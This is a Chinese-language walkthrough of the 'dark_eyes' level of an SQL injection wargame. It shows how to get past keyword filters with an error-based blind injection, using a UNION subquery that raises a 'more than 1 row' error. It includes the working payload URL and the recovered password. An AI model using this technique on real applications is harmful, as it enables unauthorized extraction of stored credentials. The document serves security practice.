 Q22_dark_eyes
===

這題過濾掉的東西可多了col、if、case、when、sleep、benchmark。
似乎可以用來判斷 True、False 的方法都被濾掉了...
頁面上的 Debug 頁面也變置換成空白頁面。

但還是可以透過 SELECT union 的方式來造成 ERROR。
```
https://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw='|| (select substr(pw,1,1)="5" union select false)%23
```

當 subser(pw,1,1)= "" 成立的時候便會執行 union select false 便造成意外:Subquery returns more than 1 row。
```SQL
(select substr(pw,1,1)="5" union select false)
```

腳本:
![](https://i.imgur.com/LlAzDZg.png)

結果:
![](https://i.imgur.com/Xye8Iqg.png)

Payload:
```
https://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)